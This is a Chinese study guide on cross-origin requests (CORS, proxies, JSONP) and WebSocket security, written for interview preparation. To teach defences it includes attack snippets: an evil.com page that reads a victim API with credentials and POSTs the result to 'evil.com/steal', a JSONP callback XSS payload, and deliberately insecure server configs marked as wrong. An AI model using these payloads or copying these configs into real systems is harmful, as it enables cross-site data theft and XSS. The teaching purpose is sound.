





# 安全 · 07 跨域与 WebSocket 安全

> 覆盖题号：**6、8**
> 对应原题：《前端怎么实现跨域请求》《WebSocket 有哪些安全问题，应该如何应对》
> 两题共享同一个前提：**浏览器边界**。跨域讲边界在哪、怎么合法开口子；WebSocket 讲一条不受该边界约束的通道，防线只能自己补。
> 文中 `Origin` 与 `postMessage` 的行为在 Chrome 下实测：页面 `http://127.0.0.1:7311`，子页面与 WS 服务 `http://localhost:7312`。

---

## 目录

- [1. 同源策略：一切的起点](#1-同源策略一切的起点)
- [2. 四种跨域方案](#2-四种跨域方案)
- [3. CORS 详解（重点）](#3-cors-详解重点)
- [4. 代理方案（最稳）](#4-代理方案最稳)
- [5. JSONP（了解 + 为什么淘汰）](#5-jsonp了解--为什么淘汰)
- [6. 跨域配置错误的真实危害](#6-跨域配置错误的真实危害)
- [7. WebSocket 安全](#7-websocket-安全)
- [8. CSWSH：跨站 WebSocket 劫持](#8-cswsh跨站-websocket-劫持)
- [9. WebSocket 安全清单](#9-websocket-安全清单)
- [10. 常见坑](#10-常见坑)
- [11. 答题模板](#11-答题模板)
- [12. 追问表](#12-追问表)
- [13. 速记卡](#13-速记卡)

---

## 1. 同源策略：一切的起点

### 1.1 一句话结论

**同源策略（Same-Origin Policy）限制的是：A 源的脚本不能读取 B 源的资源。**
**「同源」= 协议 + 域名 + 端口三者完全相同。**

```text
https://app.example.com:443/page

https://app.example.com/other      ✅ 同源（默认端口 443）
http://app.example.com/page        ❌ 协议不同
https://api.example.com/page       ❌ 域名不同
https://app.example.com:8080/page  ❌ 端口不同
```

- 默认端口等价：`https://a.com` 与 `https://a.com:443` 同源，`http` 的 80 同理
- 子域、有无 `www`、IP 与域名都算不同源：`127.0.0.1` 与 `localhost` 也不同源

### 1.2 它限制什么、不限制什么

| 限制（读） | 不限制（写 / 加载） |
| --- | --- |
| ❌ 跨源 `fetch` / XHR **读响应**（除非 CORS 允许） | ✅ 跨源**发送**请求（简单请求直接发出） |
| ❌ 跨源访问 DOM（iframe 之间） | ✅ 跨源加载 `` `<script>` `<link>` `<video>` `<iframe>` |
| ❌ 跨源读 Cookie / localStorage | ✅ 跨源**提交表单** |
| ❌ 跨源读 `iframe.contentWindow.document` | ✅ 跨源 `postMessage`（发送不受限） |

同源策略管的是「能不能读」，不管「能不能发」。

### 1.3 为什么需要同源策略

没有它，`evil.com` 可以直接读其他站点的 DOM 和接口响应：

```html
<!-- evil.com 的页面 -->
<iframe src="https://bank.com"></iframe>
<script>
  // 直接读银行页面的 DOM，拿到余额、订单，甚至页面里的 CSRF Token
  const doc = frames[0].document
  console.log(doc.querySelector('.balance').innerText)
</script>
```

```js
// 也可以借用户的 Cookie 读任意接口的响应
fetch('https://bank.com/api/orders').then((r) => r.text())
```

同源策略的作用是**防止恶意站点读取你在其他站点的数据**，它是浏览器安全模型的基础。

### 1.4 跨域 ≠ 漏洞

| 概念 | 性质 |
| --- | --- |
| **同源策略** | **安全机制**（限制） |
| **跨域请求** | 正常业务需求（前后端分离必然遇到） |
| **CORS** | 在同源策略上**开一个受控的口子**（`Access-Control-Allow-Origin`） |
| **CORS 配错** | **真正的漏洞**（见第 6 节） |

跨域请求本身不是安全问题；所谓「解决跨域」，是在同源策略这个边界上，用 CORS 或代理合法开口子。

---

## 2. 四种跨域方案

### 2.1 总览对比

| 方案 | 原理 | 支持方法 | 带 Cookie | 适用 |
| --- | --- | --- | --- | --- |
| **CORS** | 服务端返回 `Access-Control-Allow-*` 头 | 全部 | ✅（需配置） | 生产首选 |
| **代理**（Nginx / devServer） | 服务端转发，浏览器看来是同源 | 全部 | ✅（同源自动带） | 生产首选（同域部署） |
| **postMessage** | 窗口间通信，不是「请求」 | — | — | iframe / 弹窗通信 |
| **JSONP** | `<script>` 不受同源限制 | 仅 GET | ❌ | 已淘汰 |
| ~~`document.domain`~~ | 降级到主域 | — | — | 已废弃 |
| **WebSocket** | 握手不受同源限制 | — | ✅（自动带） | 需服务端校验 Origin |

`postMessage` 有两处校验：发送时第二个参数写具体 `targetOrigin`（不用 `*`），接收时判断 `event.origin`。实测接收到的 `event.origin` 是发送方源（`http://localhost:7312`），`targetOrigin` 不匹配的消息不会送达。

### 2.2 选择决策



---

## 3. CORS 详解（重点）

### 3.1 两类请求：简单请求 vs 预检请求

|  | **简单请求（Simple）** | **预检请求（Preflight）** |
| --- | --- | --- |
| 方法 | `GET` / `HEAD` / `POST` | 其他（`PUT` `DELETE` `PATCH`） |
| 请求头 | 只能是「安全列表」内的（`Accept` `Accept-Language` `Content-Language` `Content-Type` 等） | 带任何自定义头（如 `Authorization`、`X-Token`） |
| `Content-Type` | 只能是 `application/x-www-form-urlencoded` / `multipart/form-data` / **`text/plain`** | 如 `application/json` ← **最常见的触发条件** |
| 流程 | **直接发请求**，看响应头决定是否允许读 | **先发 `OPTIONS` 问一下**，通过了才发真实请求 |

`application/json` 不在简单请求的 `Content-Type` 白名单里，所以现代 JSON 接口基本都会触发预检。

### 3.2 简单请求流程



请求已经发出、服务端也已经执行，CORS 只阻止 JS **读取响应**；所以「CORS 错误」不等于「请求没到服务端」，CORS 也不能当 CSRF 防护。

### 3.3 预检请求流程



`Access-Control-Max-Age` 决定预检缓存时长：Chrome 上限 7200 秒（2 小时），Firefox 上限 86400 秒；设得太短会让每个请求多一次 OPTIONS。

### 3.4 完整响应头表

| 响应头 | 作用 | 示例 |
| --- | --- | --- |
| `Access-Control-Allow-Origin` | 允许哪些源 | `https://app.example.com`（**可以是 `*`，但与 credentials 互斥**） |
| `Access-Control-Allow-Methods` | 允许的方法（**仅预检响应需要**） | `GET, POST, PUT, DELETE` |
| `Access-Control-Allow-Headers` | 允许的请求头（**仅预检**） | `Content-Type, Authorization` |
| `Access-Control-Allow-Credentials` | 允许携带凭证 | `true` |
| `Access-Control-Expose-Headers` | 允许 JS 读哪些**响应头** | `X-Total-Count, Content-Disposition` |
| `Access-Control-Max-Age` | 预检缓存时间（秒） | `7200` |

**请求头（浏览器自动加）：**

| 请求头 | 说明 |
| --- | --- |
| `Origin` | 请求来源（**浏览器强制加，JS 改不了**） |
| `Access-Control-Request-Method` | 预检时声明接下来要用的方法 |
| `Access-Control-Request-Headers` | 预检时声明接下来要带的请求头 |

### 3.5 携带凭证的三条硬规则

```js
// 前端
fetch('https://api.other.com/data', {
  credentials: 'include', // ← 必须显式指定（默认是 'same-origin'）
})
// 或 XHR: xhr.withCredentials = true
```

```http
# 服务端
Access-Control-Allow-Origin: https://app.example.com    ← ❌ 不能是 *
Access-Control-Allow-Credentials: true
```

| 规则 | 说明 |
| --- | --- |
| ① `Access-Control-Allow-Origin` **不能是 `*`** | 与 `Allow-Credentials: true` 互斥，浏览器会直接报错 |
| ② 前端必须显式 `credentials: 'include'` | 默认 `'same-origin'` 不带跨域 Cookie |
| ③ Cookie 还需 `SameSite=None; Secure` | 否则跨站不发送（见 02 册） |

### 3.6 五个最常见的 CORS 错误

| 报错 | 原因 | 修复 |
| --- | --- | --- |
| `No 'Access-Control-Allow-Origin' header` | 服务端没配 | 加 ACAO |
| `The value of the 'Access-Control-Allow-Origin' header in the response must not be the wildcard '*' when the request's credentials mode is 'include'` | 带凭证时服务端返回了 `*` | ACAO 回显白名单里的具体源 |
| `Request header field x-token is not allowed by Access-Control-Allow-Headers` | 预检没允许这个头 | ACAH 加上 |
| `Method PUT is not allowed by Access-Control-Allow-Methods` | 预检没允许这个方法 | ACAM 加上 |
| `Redirect is not allowed for a preflight request` | 预检被 302 重定向 | 保证 OPTIONS 直接返回 204，不要重定向 |

**还有两个隐蔽的：**

| 现象 | 原因 |
| --- | --- |
| 请求发出去了，服务端日志有记录，但 JS 拿到 error | **这就是 CORS 的正常行为**（读被拦，请求已执行） |
| 响应头里自定义的 `X-Total-Count` 读不到 | 缺 `Access-Control-Expose-Headers` |

---

## 4. 代理方案（最稳）

### 4.1 为什么最稳

**代理的原理**：让浏览器请求**同源**的地址，由服务端（Nginx / Node）转发到真实后端。**浏览器根本不知道发生了跨域**，所以没有任何 CORS 问题。

| 维度 | 说明 |
| --- | --- |
| 零 CORS 配置 | 浏览器看到的是同源请求 |
| Cookie 天然同源 | 无 `SameSite` 麻烦 |
| 隐藏后端地址 | 前端不知道真实 API 域名（降低攻击面） |
| 可做统一鉴权 / 限流 / 日志 | 网关层能力 |
| 可代理不支持 CORS 的第三方接口 | 服务端请求不受同源策略约束 |
| 代价 | 多一层转发（内网通常毫秒级），代理层要做高可用 |

### 4.2 开发环境（Vite / webpack）

```js
// vite.config.js
export default {
  server: {
    proxy: {
      '/api': {
        target: 'https://backend.example.com',
        changeOrigin: true, // 改 Host 头为目标域名（很多后端会校验 Host）
        rewrite: (p) => p.replace(/^\/api/, ''), // 可选：去掉前缀
        // secure: false,            // 自签证书时关掉校验（仅开发）
      },
    },
  },
}
```

```js
// vue.config.js / webpack devServer
module.exports = {
  devServer: {
    proxy: {
      '/api': {
        target: 'https://backend.example.com',
        changeOrigin: true,
        pathRewrite: { '^/api': '' },
      },
    },
  },
}
```

**`changeOrigin: true` 是必配的**：它把请求的 `Host` 头改成目标域名。很多后端/网关会校验 `Host`，不改会 404 或 403。

### 4.3 生产环境（Nginx）

```nginx
server {
  listen 443 ssl;
  server_name app.example.com;

  # 前端静态资源
  location / {
    root /usr/share/nginx/html;
    try_files $uri $uri/ /index.html;     # SPA 路由回退
  }

  # API 反向代理
  location /api/ {
    proxy_pass https://backend.internal.example.com/;
    proxy_set_header Host $host;
    proxy_set_header X-Real-IP $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header X-Forwarded-Proto $scheme;
  }
}
```

**`proxy_pass` 末尾的斜杠决定是否保留前缀**：

- `proxy_pass https://backend/;`（带斜杠）→ `/api/user` 转发为 `/user`
- `proxy_pass https://backend;`（不带斜杠）→ `/api/user` 转发为 `/api/user`

### 4.4 BFF 层（Backend For Frontend）

如果代理层需要做**聚合、裁剪、鉴权**，可以单独起一个 Node 服务：

```text
浏览器 → BFF（同源）→ 多个后端服务
```

**好处**：

- 聚合多个接口（减少请求数）
- 在服务端持有第三方 API 的密钥，**解决「密钥不能放前端」**
- 统一鉴权、限流、日志

---

## 5. JSONP（了解 + 为什么淘汰）

### 5.1 原理

```html
<!-- ① 前端动态插入 script，src 指向接口，带上回调名 -->
<script>
  window.jsonpCallback = function (data) {
    console.log('拿到数据', data)
  }
  const s = document.createElement('script')
  s.src = 'https://api.other.com/data?callback=jsonpCallback'
  document.body.appendChild(s)
</script>
```

```js
// ② 服务端返回的是「可执行的 JS」，而不是 JSON
res.send(`${req.query.callback}(${JSON.stringify(data)})`)
// → jsonpCallback({"list": [...]})
```

**能跨域的原因**：`<script>` 标签**不受同源策略限制**，否则 CDN 的 JS 就没法用了。

### 5.2 六个致命缺点

| 缺点 | 说明 |
| --- | --- |
| **只支持 GET** | 无法 POST/PUT/DELETE |
| **无法设置请求头** | 不能带 `Authorization`、不能自定义头 |
| **没有错误处理** | `script.onerror` 只能知道失败，拿不到状态码/原因 |
| **无法取消** | 请求发出后没法 abort |
| **安全性差** | 服务端如果不过滤 `callback` 参数，可以直接注入 JS → **XSS** |
| **无法用 SRI** | 内容随 callback 变化，hash 不固定 |

### 5.3 JSONP 的 XSS 风险（很多老项目有这个问题）

```js
// ❌ 服务端不校验 callback
app.get('/api/data', (req, res) => {
  res.type('js').send(`${req.query.callback}(${JSON.stringify(data)})`)
})
```

```text
GET /api/data?callback=alert(document.cookie)//
→ 响应：alert(document.cookie)//({"list":[]})
→ 在引用这个 script 的页面里执行！
```

**修复**：

```js
// ✅ 严格校验 callback 只能是合法标识符
app.get('/api/data', (req, res) => {
  const cb = req.query.callback
  if (!/^[A-Za-z_$][A-Za-z0-9_$.]{0,63}$/.test(cb)) {
    return res.status(400).end('invalid callback')
  }
  res.type('js').send(`${cb}(${JSON.stringify(data)})`)
})
```

### 5.4 结论

JSONP 只适合「无法改服务端且只需要 GET」的极老场景。淘汰原因：只支持 GET、不能带自定义头、没有错误处理、callback 未校验会 XSS、无法用 SRI。现代方案是 CORS（服务端能改）或代理（不能改）。

---

## 6. 跨域配置错误的真实危害

### 6.1 最危险的错误：反射 Origin + 允许凭证

```js
// ❌ 极度危险
app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', req.headers.origin) // 反射任何来源
  res.setHeader('Access-Control-Allow-Credentials', 'true')
  res.setHeader('Access-Control-Allow-Methods', 'GET,POST,PUT,DELETE')
  next()
})
```

**后果**：任何网站都能用用户的 Cookie 读你的所有接口响应。

```js
// 攻击者页面 evil.com
fetch('https://api.victim.com/user/orders', { credentials: 'include' })
  .then((r) => r.json())
  .then((data) => fetch('https://evil.com/steal', { method: 'POST', body: JSON.stringify(data) }))
```

CSRF 只能「发请求」，这里能「**读响应**」，等于把用户数据完全暴露。

### 6.2 其他几种危险配置

| 配置 | 问题 |
| --- | --- |
| `ACAO: *` + `Credentials: true` | 浏览器会拒绝，但有些框架「自动修复」成反射 Origin → 变成 6.1 |
| `ACAO: null` | `null` 源（`file://`、sandbox iframe、data URL）可被利用 |
| 白名单用 `endsWith` / `includes` 匹配 | `https://evil-victim.com` 能通过 `endsWith('victim.com')` |
| 允许所有 `Allow-Headers` | 降低了攻击门槛 |
| `Allow-Methods` 包含 `*` | 同上 |

### 6.3 正确的 CORS 配置

```js
const ALLOWED_ORIGINS = new Set(['https://app.example.com', 'https://m.example.com'])

app.use((req, res, next) => {
  const origin = req.headers.origin

  // ① 精确匹配（Set.has 是严格相等，不会误判）
  if (origin && ALLOWED_ORIGINS.has(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin) // 回显具体源
    res.setHeader('Access-Control-Allow-Credentials', 'true')
    res.setHeader('Vary', 'Origin') // ② 关键！
  }

  if (req.method === 'OPTIONS') {
    res.setHeader('Access-Control-Allow-Methods', 'GET,POST,PUT,DELETE')
    res.setHeader('Access-Control-Allow-Headers', 'Content-Type,Authorization')
    res.setHeader('Access-Control-Max-Age', '7200')
    return res.status(204).end() // ③ 预检直接返回，不要重定向
  }

  next()
})
```

**`Vary: Origin` 为什么关键**：响应头里的 `ACAO` 随 `Origin` 变化，如果 CDN/代理缓存了响应，可能把给 `app.example.com` 的响应（带 `ACAO: app.example.com`）返回给 `evil.com`；加 `Vary: Origin` 告诉缓存要按 `Origin` 分别缓存。

---

## 7. WebSocket 安全

### 7.1 一句话结论

**WebSocket 的握手是一个 HTTP 请求，握手成功后协议切换为 WebSocket 帧：它不受同源策略约束，也不触发 CORS 预检。跨域保护完全依赖服务端自己校验 `Origin`。**

### 7.2 握手过程



**几个事实：**

| 事实 | 说明 |
| --- | --- |
| 握手是 **HTTP GET** | 带 `Upgrade: websocket`、`Sec-WebSocket-Key`、`Sec-WebSocket-Version: 13` |
| **浏览器会发 `Origin` 头** | 实测跨站连接时服务端收到 `Origin: http://127.0.0.1:7311`，但**不会**因 Origin 不匹配而阻止连接 |
| **Cookie 会自动带** | 跨站也一样（除非 `SameSite` 限制） |
| `Sec-WebSocket-Key` 不是鉴权 | 只是随机数，用于计算 Accept，**没有任何安全意义** |

服务端不校验 `Origin` 时，上述跨站连接直接建立并成功收发消息（实测 `open` → `echo`）。

### 7.3 五个安全问题

| # | 问题 | 说明 |
| --- | --- | --- |
| 1 | **跨站连接（CSWSH）** | 服务端不校验 Origin → 任何网站都能连（见第 8 节） |
| 2 | **明文传输** | `ws://` 可被窃听篡改 → 必须 `wss://` |
| 3 | **身份认证** | 握手时如何证明客户端身份 |
| 4 | **消息注入** | 客户端发来的数据不能信，服务端必须校验 |
| 5 | **连接期过长导致鉴权失效** | 连接活 8 小时，但 token 15 分钟就过期了 |

### 7.4 认证的三种传法（优劣对比）

| 方式 | 示例 | 评价 |
| --- | --- | --- |
| **Cookie（自动带）** | 握手时浏览器自动带 | ⚠️ 方便但**必须校验 Origin**，否则 CSWSH |
| **URL query** | `wss://api.com/ws?token=xxx` | ❌ **不推荐**——会进服务器访问日志、代理日志、浏览器历史 |
| **子协议（subprotocol）** | `new WebSocket(url, ['bearer', token])` | ✅ 可行，但服务端要解析 `Sec-WebSocket-Protocol` |
| **连接后第一条消息认证** | 连上后先发 `{type:'auth', token}` | ✅ **推荐**，但服务端要在认证前拒绝其他消息 |

```js
// ✅ 推荐：连接后第一条消息认证
const ws = new WebSocket('wss://api.example.com/ws')
ws.onopen = () => ws.send(JSON.stringify({ type: 'AUTH', token: getAccessToken() }))
ws.onmessage = (e) => {
  const msg = JSON.parse(e.data)
  if (msg.type === 'AUTH_OK') {
    // 认证通过，开始业务通信
  }
}
```

```js
// 服务端：认证前不许做任何业务操作
wss.on('connection', (socket) => {
  socket.authenticated = false
  const authTimeout = setTimeout(() => socket.close(4001, 'auth timeout'), 5000)

  socket.on('message', (raw) => {
    const msg = safeParse(raw)
    if (!msg) return socket.close(4002, 'invalid message')

    if (!socket.authenticated) {
      if (msg.type !== 'AUTH') return socket.close(4003, 'not authenticated')
      const user = verifyToken(msg.token)
      if (!user) return socket.close(4004, 'invalid token')
      socket.user = user
      socket.authenticated = true
      clearTimeout(authTimeout)
      return socket.send(JSON.stringify({ type: 'AUTH_OK' }))
    }

    handleBusiness(socket, msg)
  })
})
```

### 7.5 必做清单（核心答案）

核心三条：**校验 `Origin` 白名单**（防 CSWSH）、**使用 `wss://`**、**连接建立后尽快鉴权并在 token 过期时断开**。完整清单见第 9 节。

```js
// 服务端完整示例（ws 库）
import { WebSocketServer } from 'ws'

const ALLOWED_ORIGINS = new Set(['https://app.example.com', 'https://m.example.com'])

const wss = new WebSocketServer({
  port: 8080,
  maxPayload: 64 * 1024, // 限制单条消息大小
  verifyClient: (info, done) => {
    // ① Origin 白名单（防 CSWSH）；缺失也拒绝
    if (!info.origin || !ALLOWED_ORIGINS.has(info.origin)) {
      return done(false, 403, 'Origin not allowed')
    }
    done(true)
  },
})
```

---

## 8. CSWSH：跨站 WebSocket 劫持

### 8.1 攻击原理



**和 CSRF 的差异：**

|  | CSRF | CSWSH |
| --- | --- | --- |
| 能否读响应 | ❌ 不能 | ✅ **能**（WebSocket 是双向的） |
| 攻击持续性 | 一次性 | **持续连接，可长时间监听** |
| 危害 | 能发请求 | **能收发消息，等于接管会话** |

### 8.2 防御

```js
// ✅ 唯一有效的核心防御：校验 Origin
verifyClient: (info, done) => {
  if (!ALLOWED_ORIGINS.has(info.origin)) return done(false, 403)
  done(true)
}
```

**`SameSite` 为什么不够**：

- `SameSite=Lax` 能阻止跨站 WebSocket 握手带 Cookie（WS 握手不是顶层导航）
- 但业务必须用 `SameSite=None`（跨站嵌入）时失效
- 把安全完全寄托在 Cookie 属性上，一旦为了兼容改成 `None`，漏洞立刻出现

所以 `Origin` 校验不可省，与 CSRF 一样属于纵深防御。

### 8.3 一个容易被忽略的点

**`Origin` 头可以被非浏览器客户端伪造**（curl、Postman、Node 脚本）。

| 攻击者类型 | `Origin` 校验有效吗 |
| --- | --- |
| 恶意网页（浏览器发起） | ✅ 有效（浏览器强制设置 Origin，JS 改不了） |
| 脚本/爬虫（非浏览器） | ❌ 无效（可随便伪造） |

`Origin` 校验只能防「浏览器发起的跨站攻击」（CSWSH），防不了「直接用脚本连」；后者要靠**鉴权 token** + 限流 + 风控。

---

## 9. WebSocket 安全清单

```text
握手层
□ 使用 wss://（HTTPS 下 ws:// 会被浏览器阻止）
□ 校验 Origin 白名单（精确匹配，不能用 includes）
□ 鉴权：Cookie / subprotocol / 首条消息（推荐首条消息）
□ 不要用 URL query 传 token
□ 认证超时（如 5 秒内未认证就断开）

连接层
□ 限制单条消息大小（maxPayload）
□ 限制连接数（单用户/单 IP）
□ 心跳 ping/pong，清理死连接
□ 鉴权有效期：token 过期主动断开或要求重新认证

消息层
□ 校验消息类型（白名单 switch，未知类型丢弃）
□ 校验数据结构与类型（不信任客户端）
□ 校验取值范围（防越界、防注入）
□ 消息频率限流
□ 不把消息内容直接 eval / innerHTML / 拼 SQL
□ 二进制消息要校验大小与格式

业务层
□ 每条业务消息都校验「这个用户有没有权限做这件事」
□ 敏感操作要求二次确认（不能只靠连接已认证）
□ 记录操作日志（可审计）
```

---

## 10. 常见坑

| # | 坑 | 纠正 |
| --- | --- | --- |
| 1 | 认为跨域是「漏洞」 | 同源策略是安全机制；跨域是需求；CORS 配错才是漏洞 |
| 2 | 认为 CORS 能防 CSRF | 请求照样发出并执行，CORS 只阻止读响应 |
| 3 | `credentials: 'include'` 但 ACAO 用 `*` | 浏览器直接报错；必须回显具体源 |
| 4 | 反射 `req.headers.origin` | 任何站都能读你的接口（比 CSRF 严重） |
| 5 | 白名单用 `includes` / `endsWith` | `evil-victim.com` 能通过；用 `Set.has` 精确匹配 |
| 6 | 漏了 `Vary: Origin` | CDN 缓存串源，可能把 A 站的 CORS 响应给 B 站 |
| 7 | 预检返回 302 | 浏览器报 `Redirect is not allowed for a preflight` |
| 8 | `Max-Age` 设太短 | 每个请求都多一次 OPTIONS，延迟翻倍 |
| 9 | 自定义响应头读不到 | 需要 `Access-Control-Expose-Headers` |
| 10 | `changeOrigin: false` | 后端校验 Host 时 404/403 |
| 11 | `proxy_pass` 末尾斜杠搞错 | 路径被多剥/少剥一层 |
| 12 | 用 JSONP 还传敏感数据 | 只支持 GET，token 会进 URL/日志 |
| 13 | JSONP 的 callback 不校验 | 直接 XSS |
| 14 | 认为 WebSocket 受 CORS 保护 | **不受**，必须自己校验 Origin |
